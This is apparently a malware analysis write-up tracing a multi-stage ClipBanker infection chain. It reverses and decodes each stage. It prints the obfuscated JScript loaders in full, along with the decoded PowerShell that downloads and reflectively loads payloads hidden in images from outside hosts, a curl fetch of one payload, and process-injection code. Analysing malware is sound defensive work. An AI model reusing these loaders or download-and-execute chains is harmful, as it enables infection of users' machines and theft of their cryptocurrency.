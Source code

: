 ## MultiStage ClipBanker - JavaScript to Injection

RedLine Clipper (aka ClipBanker) is specifically designed to steal cryptocurrencies by replacing the user’s system clipboard activities with the wallet address under the control of attackers. 

## Initial JavaScript

``` powershell
function TwtgaWCivnsxiQCbwJSLTCoEJMdptJClJHpZjAWDdZiSqltCvhdULoxXBHwyHFsZGOAumfobRmSZYGcnTOqlQIORHhyqfcitfVIVoRXnknNbOnVerxNCyeaBAnMEDuvyWPYATkqBNDZeMFnDOCskmTaUSfpbVTXPKKBNtUyFSBdQbdByWNvZaxWgdUegnKYPirtLGYpA(str) {
    return str.split('').reverse().join('');
}

var oPFGPIuwcHruJTqFXjackEDlcnSzkthlCzIxXlRxaOutOoYGbxOJUKfcrtBMDtjLncxhrEnaotOSkdlvRkrSPphrTeSAxkMlnajBFllHaaMPVqXpMfUyXfABgdmnGxUicFvvXnegWxKqCEcNpydCZTlzoPAHStszEyriqeEaCkwZHyLRCPbAclBysrLOoipeWFgBnPbj = "56wui/d/ee.etsap//:sptth";
var cumuxNDEeacpyaraANJjLJnjKWjsdTrCJBWmgiGbHiuUIbVrZIQDORghDNrMPsyUzaOqvclFsaAspOPMMsRRVxjwjEHSFNjjlaJyfnBefRcZGdPVEHzEDwYZHiYlWgtzZIrqwJncSyvGXRdtQmwOgNmnXYtFaUYsLwaEJLZVsBorPpnRuJbiAmWofsqthdWXRodWaxKM = TwtgaWCivnsxiQCbwJSLTCoEJMdptJClJHpZjAWDdZiSqltCvhdULoxXBHwyHFsZGOAumfobRmSZYGcnTOqlQIORHhyqfcitfVIVoRXnknNbOnVerxNCyeaBAnMEDuvyWPYATkqBNDZeMFnDOCskmTaUSfpbVTXPKKBNtUyFSBdQbdByWNvZaxWgdUegnKYPirtLGYpA(oPFGPIuwcHruJTqFXjackEDlcnSzkthlCzIxXlRxaOutOoYGbxOJUKfcrtBMDtjLncxhrEnaotOSkdlvRkrSPphrTeSAxkMlnajBFllHaaMPVqXpMfUyXfABgdmnGxUicFvvXnegWxKqCEcNpydCZTlzoPAHStszEyriqeEaCkwZHyLRCPbAclBysrLOoipeWFgBnPbj);

var BrBaUNfshzTYuatBKvgqoIJUECNQrrYReHtKDTCqurBnbAdZSxzIZjRObRMPzLaicRZnQkFIqMMyCWveHIPWPJxKyxjNKHwrjCuFIKPnxUVUwYWLnpcclMXOSUbAmZbpTuJvXsXbpqKsMeoWvLKApYUccAfUXpsuZOdgNwpgnWLKnJxDqgbsBzGoNgAzsbjeRIGvoejL = new ActiveXObject("MSXML2.ServerXMLHTTP");
BrBaUNfshzTYuatBKvgqoIJUECNQrrYReHtKDTCqurBnbAdZSxzIZjRObRMPzLaicRZnQkFIqMMyCWveHIPWPJxKyxjNKHwrjCuFIKPnxUVUwYWLnpcclMXOSUbAmZbpTuJvXsXbpqKsMeoWvLKApYUccAfUXpsuZOdgNwpgnWLKnJxDqgbsBzGoNgAzsbjeRIGvoejL.open("GET", cumuxNDEeacpyaraANJjLJnjKWjsdTrCJBWmgiGbHiuUIbVrZIQDORghDNrMPsyUzaOqvclFsaAspOPMMsRRVxjwjEHSFNjjlaJyfnBefRcZGdPVEHzEDwYZHiYlWgtzZIrqwJncSyvGXRdtQmwOgNmnXYtFaUYsLwaEJLZVsBorPpnRuJbiAmWofsqthdWXRodWaxKM, false);
BrBaUNfshzTYuatBKvgqoIJUECNQrrYReHtKDTCqurBnbAdZSxzIZjRObRMPzLaicRZnQkFIqMMyCWveHIPWPJxKyxjNKHwrjCuFIKPnxUVUwYWLnpcclMXOSUbAmZbpTuJvXsXbpqKsMeoWvLKApYUccAfUXpsuZOdgNwpgnWLKnJxDqgbsBzGoNgAzsbjeRIGvoejL.send();

var zFRcqeVmscmYglMSIKZAFqrssqIFeUgbGdouShnFfqpDAimEMJkAyPxIcPDUpQQAMmYIVtUFfORiLjLCeEUXtOPBVuPvoWYsuhhZOrGMMOgfinDwtmaWyqxlWykOsjqbWlPcJphRbNOKfyAANzexSiOpBsamnhxbXEknDRwbAgKIcMSduPSyCmavuzOxxPFKJyiqQhxu = BrBaUNfshzTYuatBKvgqoIJUECNQrrYReHtKDTCqurBnbAdZSxzIZjRObRMPzLaicRZnQkFIqMMyCWveHIPWPJxKyxjNKHwrjCuFIKPnxUVUwYWLnpcclMXOSUbAmZbpTuJvXsXbpqKsMeoWvLKApYUccAfUXpsuZOdgNwpgnWLKnJxDqgbsBzGoNgAzsbjeRIGvoejL.responseText;

(function() {
    eval(zFRcqeVmscmYglMSIKZAFqrssqIFeUgbGdouShnFfqpDAimEMJkAyPxIcPDUpQQAMmYIVtUFfORiLjLCeEUXtOPBVuPvoWYsuhhZOrGMMOgfinDwtmaWyqxlWykOsjqbWlPcJphRbNOKfyAANzexSiOpBsamnhxbXEknDRwbAgKIcMSduPSyCmavuzOxxPFKJyiqQhxu);
})();
```

Besides the very long annoying variable names, this initial script is quite simple, it takes the string "56wui/d/ee.etsap//:sptth", reverses it, and executes the contents of that URL.

Now we know where the second stage is hosted, we'll head over and download the contents to investigate further.

## 2nd Stage - Further JavaScript

``` powershell
    var gQBnV = false;

    function PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI(LpxIb) {
        return LpxIb.split('').reverse().join('');
    }
   
    var olffySApjnmNzEVCrHdsmIvkvtrmdvjBfknvClSyBGJHuqChGtDdwNjUtRxkkyfJOYUiJGZMAThKDTsUxGJuaNqSbTPvTbbqmefDGsXrinQyOMnXQfeSjWxgZKFIubTWXJNqCxTJwTRbGDBclyLnPEmbnFRmJCPDQxEhyrMtITkhfcVQBxcMaJXujuQBrVucxLrEASLY = PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("♚♛kC♚♛p♚♛wJ♚♛UG♚♛tBQY♚♛4E♚♛rBgb♚♛wE♚♛n♚♛♚♛I♚♛wC♚♛n♚♛♚♛X♚♛EG♚♛0BQY♚♛QE♚♛tBQY♚♛IH♚♛nBwb♚♛IH♚♛QB♚♛X♚♛oD♚♛DBwJ♚♛♚♛C♚♛s♚♛♚♛I♚♛cC♚♛x♚♛wJ♚♛♚♛C♚♛s♚♛♚♛I♚♛cC♚♛lBQb♚♛EG♚♛OBwc♚♛IG♚♛WBwJ♚♛♚♛C♚♛s♚♛♚♛I♚♛cC♚♛y♚♛wJ♚♛♚♛C♚♛s♚♛♚♛I♚♛cC♚♛n♚♛♚♛I♚♛wC♚♛g♚♛wJ♚♛gG♚♛0B♚♛d♚♛♚♛H♚♛zBgO♚♛8C♚♛v♚♛♚♛c♚♛EG♚♛zB♚♛d♚♛UG♚♛u♚♛QZ♚♛UG♚♛v♚♛♚♛Z♚♛8C♚♛VBQN♚♛cD♚♛LBQa♚♛8C♚♛w♚♛wJ♚♛gC♚♛g♚♛QX♚♛0F♚♛bB♚♛d♚♛MG♚♛lBga♚♛IG♚♛vBwW♚♛♚♛C♚♛s♚♛♚♛b♚♛wG♚♛1Bgb♚♛QC♚♛o♚♛QZ♚♛sG♚♛vBgd♚♛4G♚♛JBgL♚♛kC♚♛n♚♛gb♚♛UH♚♛SBwJ♚♛gC♚♛kBwb♚♛gG♚♛0BQZ♚♛0E♚♛0BQZ♚♛cE♚♛u♚♛QZ♚♛♚♛H♚♛5B♚♛d♚♛QC♚♛g♚♛QP♚♛♚♛C♚♛kBwb♚♛gG♚♛0BQZ♚♛0G♚♛k♚♛wO♚♛kC♚♛n♚♛QM♚♛MH♚♛zBQY♚♛wG♚♛DBgL♚♛MD♚♛5Bgc♚♛EG♚♛yBgY♚♛kG♚♛MBwc♚♛MH♚♛hB♚♛b♚♛ME♚♛n♚♛♚♛K♚♛UG♚♛wBQe♚♛QF♚♛0BQZ♚♛cE♚♛u♚♛Qe♚♛wG♚♛iBQb♚♛UG♚♛zBwc♚♛EE♚♛kBQZ♚♛QG♚♛hBwb♚♛wG♚♛k♚♛♚♛I♚♛0D♚♛g♚♛QZ♚♛♚♛H♚♛5B♚♛d♚♛QC♚♛7♚♛QK♚♛MH♚♛lB♚♛d♚♛kH♚♛CB♚♛Z♚♛4G♚♛hBQb♚♛0G♚♛vBwY♚♛QC♚♛o♚♛♚♛Z♚♛EG♚♛vB♚♛T♚♛oD♚♛6♚♛QX♚♛kH♚♛sBgY♚♛0G♚♛lBwc♚♛MH♚♛BBgL♚♛4G♚♛vBQa♚♛QH♚♛jBQZ♚♛wG♚♛mBQZ♚♛IF♚♛u♚♛Qb♚♛UG♚♛0Bwc♚♛kH♚♛TBwW♚♛♚♛C♚♛9♚♛♚♛I♚♛kH♚♛sBgY♚♛0G♚♛lBwc♚♛MH♚♛BB♚♛Z♚♛UG♚♛kBQY♚♛8G♚♛sB♚♛J♚♛sD♚♛p♚♛♚♛Z♚♛4G♚♛hBQb♚♛0G♚♛vBwQ♚♛QD♚♛2♚♛QZ♚♛MH♚♛hBgY♚♛QC♚♛o♚♛wZ♚♛4G♚♛pBgc♚♛QH♚♛TB♚♛N♚♛YD♚♛lBwc♚♛EG♚♛CBQb♚♛8G♚♛yBgR♚♛oD♚♛6♚♛QX♚♛QH♚♛yBQZ♚♛YH♚♛uBwb♚♛ME♚♛u♚♛Qb♚♛UG♚♛0Bwc♚♛kH♚♛TBwW♚♛♚♛C♚♛9♚♛♚♛I♚♛MH♚♛lB♚♛d♚♛kH♚♛CB♚♛Z♚♛4G♚♛hBQb♚♛0G♚♛vBwY♚♛QC♚♛7♚♛QK♚♛gG♚♛0BwZ♚♛4G♚♛lB♚♛T♚♛QD♚♛2♚♛QZ♚♛MH♚♛hBgY♚♛QC♚♛g♚♛♚♛L♚♛gH♚♛lB♚♛Z♚♛4G♚♛JB♚♛d♚♛IH♚♛hB♚♛d♚♛MH♚♛k♚♛♚♛K♚♛cG♚♛uBQa♚♛IH♚♛0Bwc♚♛IG♚♛1BwU♚♛4C♚♛0B♚♛e♚♛UG♚♛UBQZ♚♛cG♚♛hBQb♚♛kG♚♛k♚♛♚♛I♚♛0D♚♛g♚♛♚♛Z♚♛4G♚♛hBQb♚♛0G♚♛vBwQ♚♛QD♚♛2♚♛QZ♚♛MH♚♛hBgY♚♛QC♚♛7♚♛♚♛e♚♛UG♚♛kBgb♚♛kE♚♛0Bgc♚♛EG♚♛0Bwc♚♛QC♚♛g♚♛QL♚♛♚♛C♚♛4BQZ♚♛QG♚♛uBQS♚♛QG♚♛uBQZ♚♛QC♚♛g♚♛QP♚♛♚♛C♚♛oB♚♛d♚♛cG♚♛uBQZ♚♛wE♚♛0♚♛gN♚♛UG♚♛zBQY♚♛IG♚♛k♚♛wO♚♛gG♚♛0BwZ♚♛4G♚♛lB♚♛T♚♛4C♚♛nBQY♚♛wG♚♛GB♚♛d♚♛IH♚♛hB♚♛d♚♛MH♚♛k♚♛♚♛I♚♛0D♚♛r♚♛♚♛I♚♛gH♚♛lB♚♛Z♚♛4G♚♛JB♚♛d♚♛IH♚♛hB♚♛d♚♛MH♚♛k♚♛wO♚♛gH♚♛lB♚♛Z♚♛4G♚♛JB♚♛d♚♛IH♚♛hB♚♛d♚♛MH♚♛k♚♛♚♛I♚♛QH♚♛nBQL♚♛♚♛C♚♛4BQZ♚♛QG♚♛uBQS♚♛QG♚♛uBQZ♚♛QC♚♛g♚♛♚♛Z♚♛4G♚♛hBQL♚♛♚♛C♚♛w♚♛♚♛I♚♛UG♚♛nBQL♚♛♚♛C♚♛4BQZ♚♛QG♚♛uBQS♚♛QH♚♛yBQY♚♛QH♚♛zB♚♛J♚♛sD♚♛p♚♛wZ♚♛EG♚♛sBgR♚♛QG♚♛uBQZ♚♛QC♚♛o♚♛gZ♚♛8E♚♛4BQZ♚♛QG♚♛uBQS♚♛4C♚♛0B♚♛e♚♛UG♚♛UBQZ♚♛cG♚♛hBQb♚♛kG♚♛k♚♛♚♛I♚♛0D♚♛g♚♛♚♛e♚♛UG♚♛kBgb♚♛kE♚♛kBgb♚♛UG♚♛k♚♛wO♚♛kC♚♛nBQY♚♛wG♚♛GB♚♛d♚♛IH♚♛hB♚♛d♚♛MH♚♛k♚♛♚♛K♚♛YG♚♛PB♚♛e♚♛UG♚♛kBgb♚♛kE♚♛u♚♛♚♛d♚♛gH♚♛lB♚♛V♚♛UG♚♛nBQY♚♛0G♚♛pB♚♛J♚♛♚♛C♚♛9♚♛♚♛I♚♛gH♚♛lB♚♛Z♚♛4G♚♛JB♚♛d♚♛IH♚♛hB♚♛d♚♛MH♚♛k♚♛wO♚♛cC♚♛+♚♛gP♚♛QE♚♛OBQR♚♛8F♚♛0♚♛gN♚♛UE♚♛TBQQ♚♛IE♚♛8♚♛♚♛P♚♛cC♚♛g♚♛QP♚♛♚♛C♚♛nBQY♚♛wG♚♛GB♚♛Z♚♛4G♚♛lB♚♛J♚♛sD♚♛n♚♛gP♚♛4D♚♛UBgU♚♛EE♚♛UBwU♚♛8F♚♛0♚♛gN♚♛UE♚♛TBQQ♚♛IE♚♛8♚♛♚♛P♚♛cC♚♛g♚♛QP♚♛♚♛C♚♛nBQY♚♛wG♚♛GB♚♛d♚♛IH♚♛hB♚♛d♚♛MH♚♛k♚♛wO♚♛kC♚♛zBQZ♚♛QH♚♛5BgQ♚♛UG♚♛nBQY♚♛0G♚♛pB♚♛J♚♛gC♚♛nBgb♚♛kG♚♛yB♚♛d♚♛MF♚♛0BQZ♚♛cE♚♛u♚♛♚♛O♚♛YE♚♛UBQV♚♛oD♚♛6♚♛QX♚♛cG♚♛uBQa♚♛QG♚♛vBwY♚♛4G♚♛FBgL♚♛QH♚♛4BQZ♚♛QF♚♛u♚♛Qb♚♛UG♚♛0Bwc♚♛kH♚♛TBwW♚♛♚♛C♚♛9♚♛♚♛I♚♛QH♚♛4BQZ♚♛QF♚♛lBwZ♚♛EG♚♛tBQa♚♛QC♚♛7♚♛QK♚♛wG♚♛yBQV♚♛UG♚♛nBQY♚♛0G♚♛pB♚♛J♚♛gC♚♛hB♚♛d♚♛EG♚♛EB♚♛Z♚♛EG♚♛vB♚♛b♚♛4G♚♛3Bwb♚♛QE♚♛u♚♛♚♛d♚♛4G♚♛lBQa♚♛wG♚♛DBgY♚♛UG♚♛3B♚♛J♚♛♚♛C♚♛9♚♛♚♛I♚♛MH♚♛lB♚♛d♚♛kH♚♛CBQZ♚♛cG♚♛hBQb♚♛kG♚♛k♚♛wO♚♛QH♚♛uBQZ♚♛kG♚♛sBwQ♚♛IG♚♛lBwV♚♛4C♚♛0BQZ♚♛4E♚♛u♚♛Qb♚♛UG♚♛0Bwc♚♛kH♚♛TB♚♛I♚♛QH♚♛jBQZ♚♛oG♚♛iBwT♚♛0C♚♛3BQZ♚♛4E♚♛g♚♛QP♚♛♚♛C♚♛0Bgb♚♛UG♚♛pB♚♛b♚♛ME♚♛iBQZ♚♛cH♚♛k♚♛wO♚♛cC♚♛5♚♛♚♛M♚♛YD♚♛x♚♛QO♚♛UD♚♛y♚♛♚♛M♚♛cD♚♛x♚♛wP♚♛cG♚♛wBga♚♛4C♚♛zBga♚♛8C♚♛sBQY♚♛4G♚♛pBwZ♚♛kG♚♛yBwb♚♛8C♚♛3♚♛QN♚♛ID♚♛v♚♛QM♚♛kD♚♛2♚♛wL♚♛QD♚♛w♚♛♚♛M♚♛8C♚♛zBQZ♚♛cG♚♛hBQb♚♛kG♚♛v♚♛gc♚♛IG♚♛u♚♛Qb♚♛8G♚♛jBgL♚♛MH♚♛uBQZ♚♛cG♚♛hBQb♚♛kG♚♛lB♚♛Z♚♛QG♚♛hBwb♚♛wG♚♛wBQd♚♛8C♚♛v♚♛gO♚♛MH♚♛wB♚♛d♚♛QH♚♛oBwJ♚♛♚♛C♚♛9♚♛♚♛I♚♛wG♚♛yBQV♚♛UG♚♛nBQY♚♛0G♚♛pB♚♛J");
    var hanqbbYcWLzDlNxOPncjvQCBQonxVECthpIBwsmoBBvosDsujcOzxzaSUiwwkpZHunsTFbSwqYqacScohDNICrUwvjkGulSfZZmeTtftPaPdvKsQTJQISdssGpxQIUGuxwhWPmoCMGohuYLXDyTwcGOtBtKBHZMXyOJlkQOEhkiqLvzhicJrDPknYXzFTodoezdLgRHq = PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("' = ogidoC$") + 
    olffySApjnmNzEVCrHdsmIvkvtrmdvjBfknvClSyBGJHuqChGtDdwNjUtRxkkyfJOYUiJGZMAThKDTsUxGJuaNqSbTPvTbbqmefDGsXrinQyOMnXQfeSjWxgZKFIubTWXJNqCxTJwTRbGDBclyLnPEmbnFRmJCPDQxEhyrMtITkhfcVQBxcMaJXujuQBrVucxLrEASLY + "';" +
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("S[ = dxujWO$") + 
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("eT.metsy") + 
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("nU::]gnidocnE.tx") + 
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("eG.edoci") + 
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("C.metsyS[(gnirtSt") + 
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("6esaBmorF::]trevno") + 
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("lper.ogidoc$(gnirtS4") + 
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI(";)) )'A','♚♛'(eca") +
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("niw- exe.llehsrewop") + 
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("exe- neddih elytswod") + 
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("N- ssapyb ycilopnoituc") + 
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("moc- eliforPo") + 
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("dxujWO$ dnam");
    var eDiSkbNqurqMJDuUiMjNdhOPQQQBvgCftSEHiubYOGUaguzUTNMYeXrTtQOfKyfoAYstCerExYstbTlKouLwhYrnRQphSSARgdjkjrVfvyUZpnHZUSKwsqxMwNFXqElpakdDRQTBboYYHlOHdpQuaUtcDulXphSoyytwUdssTCfGwUoaWBxOUbiVhnwlqCxQURynpcjj = "\x57\x53\x63\x72\x69\x70\x74\x2E\x53\x68\x65\x6C\x6C"
    var ESlFnRWpugflXfvZqSyJlkwsMpcbzCAvFjVaLHGmHCPVjVevdKGGqImgXdntYCyHpCJZWNwKzrUiJEdtUbSUwZDEcrUscveYRSCVwMyIGRzKcZGjcknRtkmrhtoHYyjrUqVpSuBjUVbcmXfLCWiAdbpEMwWATsqxmdxuDKODAfEFiwTDSExHzcsrUPrmOKWPyRGNlldF = new ActiveXObject(eDiSkbNqurqMJDuUiMjNdhOPQQQBvgCftSEHiubYOGUaguzUTNMYeXrTtQOfKyfoAYstCerExYstbTlKouLwhYrnRQphSSARgdjkjrVfvyUZpnHZUSKwsqxMwNFXqElpakdDRQTBboYYHlOHdpQuaUtcDulXphSoyytwUdssTCfGwUoaWBxOUbiVhnwlqCxQURynpcjj);
    ESlFnRWpugflXfvZqSyJlkwsMpcbzCAvFjVaLHGmHCPVjVevdKGGqImgXdntYCyHpCJZWNwKzrUiJEdtUbSUwZDEcrUscveYRSCVwMyIGRzKcZGjcknRtkmrhtoHYyjrUqVpSuBjUVbcmXfLCWiAdbpEMwWATsqxmdxuDKODAfEFiwTDSExHzcsrUPrmOKWPyRGNlldF.Run("\x70\x6F\x77\x65\x72\x73\x68\x65\x6C\x6C\x20\x2D\x63\x6F\x6D\x6D\x61\x6E\x64 \"" + hanqbbYcWLzDlNxOPncjvQCBQonxVECthpIBwsmoBBvosDsujcOzxzaSUiwwkpZHunsTFbSwqYqacScohDNICrUwvjkGulSfZZmeTtftPaPdvKsQTJQISdssGpxQIUGuxwhWPmoCMGohuYLXDyTwcGOtBtKBHZMXyOJlkQOEhkiqLvzhicJrDPknYXzFTodoezdLgRHq + "\"", 0, false);
```

Again, annoyingly long variable names, we can rename these just to make it a little less of an eye sore.

We can then work out parts of the script, simply by reversing the strings for the PowerShell part, and doing a From Hex operation on the later parts.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/9838b0c5-600c-4c17-bab6-ef82d75c67a9)

The Base64 element can be analysed by utilising the following Operators in CyberChef:

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/de584242-bd66-4c9e-b305-39a9e120e00b)

Which reveals the following:

``` powershell
$imageUrl = 'hxxps[://]uploaddeimagens.com[.]br/images/004/691/257/original/js.jpg?1702591609';$webClient = New-Object System.Net.WebClient;$imageBytes = $webClient.DownloadData($imageUrl);$imageText = [System.Text.Encoding]::UTF8.GetString($imageBytes);$startFlag = '<<BASE64_START>>';$endFlag =
'<<BASE64_END>>';$startIndex = $imageText.IndexOf($startFlag);$endIndex = $imageText.IndexOf($endFlag);$startIndex -ge 0 -and $endIndex -gt $startIndex;$startIndex += $startFlag.Length;$base64Length = $endIndex - $startIndex;$base64Command = $imageText.Substring($startIndex, $base64Length);$commandBytes =
[System.Convert]::FromBase64String($base64Command);$loadedAssembly = [System.Reflection.Assembly]::Load($commandBytes);$type = $loadedAssembly.GetType('ClassLibrary3.Class1');$method = $type.GetMethod('Run').Invoke($null, [object[]] ('0/iK75U/d/ee.etsap//:sptth' , '' , '2' , 'VbsName' , '1' , 'C:\ProgramData\',
'LnkName'))
```
## 3rd Stage - Some Executables

There are 2 interesting URLs within this command block:

[-] hxxps[://]uploaddeimagens.com[.]br/images/004/691/257/original/js.jpg?1702591609

[-] hxxps[://]paste[.]ee/d/U57Ki/0

For the first URL, it reads the bytes between 2 flags present in the strings of an image file and executes them. The 2nd URL is passed as an argument - which will make more sense later.

We can extract the contents of the first by downloading the image, running a strings command, and extracting the code between the <<BASE64_START>> and <<BASE64_END>> flags.

```
curl https://uploaddeimagens.com.br/images/004/691/257/original/js.jpg?1702591609 -o test.txt | strings test.txt
```
![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/87dd46b6-366f-44d2-8768-9c26fae6b070)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/7ae91d50-d7f6-42f1-8b17-eaf7dee97fdf)

When decoding this from Base64 we are given an executable file.

The second URL contains a reversed Base64 string which contains another executable.

**1st Executable SHA 256**: e7e22e5e0f47fe2c2aa71f293e609c4fac901823dce6c6ae39400d1c2f02df54

**2nd Executable SHA 256**: 8c21274f725299022fbf415925210da65702198913c4713dfe5dda09ceb2d38a

The first executable appears to be a generic loader / malware deployment framework.

Within the first line after the entry point, we can see the variable 'LAbWJK' which is the name given to the 2nd executable, as it was given as an argument in the previous PowerShell command.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/74401b9a-3d72-4a46-8ecc-ccf43619ed47)

Moving down, there are references to generic persistence mechanisms, which in this case, have not been enabled. 

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/071802e4-6b24-48e3-ad53-319043036be8)

Next, we can see more Base64 content being extracted from an image, reversed, and executed.
![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/fe9c374a-5c80-4d55-870e-77a7635ef61f)

After reversing the string, downloading the image, reversing the base64 and decoding to an executable, we are presented with a binary whose sole purpose is to inject code.

**References to Injection:**
``` powershell
private static readonly Class1.Delegate9 delegate9_0 = Class1.smethod_0<Class1.Delegate9>("kern!".Replace("!", "el32"), "Create&".Replace("&", "ProcessA"));
